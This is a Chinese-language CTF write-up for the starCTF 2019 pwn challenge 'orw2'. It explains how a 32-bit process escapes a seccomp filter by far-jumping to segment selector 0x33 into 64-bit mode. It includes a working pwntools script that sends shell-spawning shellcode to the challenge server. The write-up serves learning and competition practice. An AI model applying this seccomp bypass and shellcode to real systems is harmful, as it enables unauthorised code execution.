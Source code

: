 ```yaml
---
title: writeup.starctf.pwn.orw2
date: 2019-08-26 15:15:00
categories: writeup
tags: [writeup,pwn]

---
```


## 前言

做orw的时候很轻松，做orw2，找不到任何资料，耐心问了师傅知道 `jmp` 指令（特指远跳转）还可以通过修改 CS 寄存器来切换 `Segment Descriptor`，使 32 位进程可以切换CPU至 64 位处理 64 位的指令集，orw2一开始通过 `seccomp` 限制了一票 `syscall`，但是不限制 64 位架构，因此这题需要切换至 64 位 `arch`，然后再 `syscall`。

一个关于GDT的参考文章：[传送门](https://www.malwaretech.com/2014/02/the-0x33-segment-selector-heavens-gate.html)

## 分析
1.checksec
![](https://i.loli.net/2019/08/26/XBFTzPI3WL5itDr.png)
2.seccomp
![](https://i.loli.net/2019/08/26/APJFj4cM3vZ7hrn.png)
把规则表拿出来

![](https://i.loli.net/2019/08/26/XvGmN8cFZ9d6gBf.png)
可以看到使用 64 位模式即可跳过检查

## 方法
![](https://i.loli.net/2019/08/26/fqzeANKG5Wd1tSU.png)
很简单，这buffer是在bss段，还没开PIE。首先切换指令模式
```python
from pwn import *    
import struct

context.clear(arch='i386', os='linux')  
code32 = "jmp 0x33:0x804a068\n"
shell32 = asm(code32)
```
然后是 64 位的shellcode
```python
context.clear(arch='amd64', os='linux')  
code64 = pwnlib.shellcraft.amd64.linux.sh()
shell64 = asm(code64)

print "length 32: %x" % (len(shell32))
print "length 64: %x" % (len(shell64))
```
稍微安排一下，第一级编译出来长度为7，加一个nop，所以跳转到 `0x804a068`

## 结果
```python
shell = shell32 + 'X' + shell64 

conn = remote("pwn.sixstars.team", 22019) 
conn.sendline(shell)    
ret = conn.recvrepeat(0.1)
print ret 
conn.interactive()
```
执行
![](https://i.loli.net/2019/08/26/4pi8DHYQPherMAK.png)
## 参考资料
https://www.hardwaresecrets.com/amd-64-bit-architecture-x86-64/2/
https://stackoverflow.com/questions/24113729/switch-from-32bit-mode-to-64-bit-long-mode-on-64bit-linux
https://www.cnblogs.com/lanrenxinxin/p/4821152.html
https://www.cnblogs.com/HsinTsao/p/7270732.html
